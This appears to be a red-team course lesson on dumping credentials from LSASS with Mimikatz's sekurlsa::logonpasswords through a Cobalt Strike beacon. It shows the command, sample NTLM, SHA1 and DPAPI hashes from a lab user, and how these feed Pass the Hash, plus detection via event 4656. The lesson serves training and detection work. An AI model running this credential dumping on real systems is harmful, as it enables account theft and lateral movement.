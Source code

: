 The `sekurlsa::logonpasswords` Mimikatz module is infamous for being able to "dump plaintext passwords from memory".  Having a user's password has obvious advantages and was a lucrative tactic for a long time.  However, Microsoft have implemented a lot of mitigations in Windows 10 and above, such as disabling [wdigest](https://stealthbits.com/blog/wdigest-clear-text-passwords-stealing-more-than-a-hash/) by default, so happening across plaintext passwords is certainly less common.

This module is still capable of retrieving NTLM hashes which is useful for pairing with the **Pass the Hash** or even cracking to recover the plaintext.

### This command requires elevated privileges.

  
```
beacon> mimikatz !sekurlsa::logonpasswords

Authentication Id : 0 ; 579458 (00000000:0008d782)
Session           : Batch from 0
User Name         : jking
Domain            : DEV
Logon Server      : DC-2
Logon Time        : 8/31/2022 11:49:48 AM
SID               : S-1-5-21-569305411-121244042-2357301523-1105
	msv :
	 [00000003] Primary
	 * Username : jking
	 * Domain   : DEV
	 * NTLM     : 59fc0f884922b4ce376051134c71e22c
	 * SHA1     : 74fa9854d529092b92e0d9ebef7ce3d065027f45
	 * DPAPI    : 0837e40088a674327961e1d03946f5f2
```
  

Cobalt Strike also has a short-hand command for this called `logonpasswords`.  After dumping these credentials, go to _View > Credentials_ to see a copy of them.

  **OPSEC**  
  
This module will open a read handle to LSASS which can be logged under event 4656.  Use the "Suspicious Handle to LSASS" saved search in Kibana to see them.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/e8f/69a/7b8/lsass-read.png)

  

This shows the user WKSTN-2$ (which means SYSTEM on WKSTN-2) obtained a handle to LSASS from powershell.exe with an access mask of 0x1010.  This comes from the flags PROCESS_QUERY_LIMITED_INFORMATION (0x1000) and PROCESS_VM_READ (0x0010), which is consistent with the [Mimikatz source code](https://github.com/gentilkiwi/mimikatz/blob/master/mimikatz/modules/sekurlsa/kuhl_m_sekurlsa.c#L163).